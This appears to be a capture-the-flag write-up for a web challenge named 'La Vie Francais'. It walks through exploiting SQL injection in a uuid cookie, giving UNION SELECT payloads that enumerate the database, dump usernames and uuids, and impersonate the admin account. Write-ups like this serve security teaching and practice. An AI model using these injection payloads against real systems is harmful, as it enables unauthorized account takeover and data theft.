







## ## Challenge Description

We have access to a website La Vie Francais (which was hinted that there exists a SQL server, since the admin banned sqlmap)

From the description and context of the challenge, it seems like we need to login as Madame Forestier to get the flag.

## ## Solution

In the beginning, I thought that we have to bypass the login form but it has a filter that reject all but the alphanumeric character with this error message: " Seuls les caractères alphanumériques sont autorisés "

However it was a rabbit hole!

The real trick here is after we login: /account endpoint with the cookie uuid

When we change the uuid to **` ' OR 1=1#'** the page no longer shows our name but jacquesrival instead.

This confirmed that this section is vulnerable to SQLi. Now let's exploit it.

First thing first we need to find out the number of columns of the return table before using the UNION attack with the payload **`' UNION SELECT 1,2,3#'**

As we can see above, the field 1 is for the username, field 2 is some kind of message for the type user or admin maybe? and the 3 is perhap the uuid.

With this payload **`' UNION SELECT 1,database(),2'`** I found the database name **` usersdb`**

Then with **`' UNION SELECT table_name,2,3 from information_schema.tables where table_schema='usersdb'#`** I found the table **`users**

For the columns name we use **`' UNION SELECT group_concat(column_name),2,3 from information_schema.columns where table_name='users'#**

Now all we need to do to leak the uuid of the owner and impersonate Madame Forestier!

**`' UNION SELECT group_concat(username,':',uuid SEPARATOR '#####'),2,3 from users#** leads us to the uuid of Madame Forestier madeleineforestier:8650580d3fe9431f8281b2212e9ff0de.

Change our uuid in cookie with Chrome Dev Tools (or modify it with Burp) and we can see the admin page.

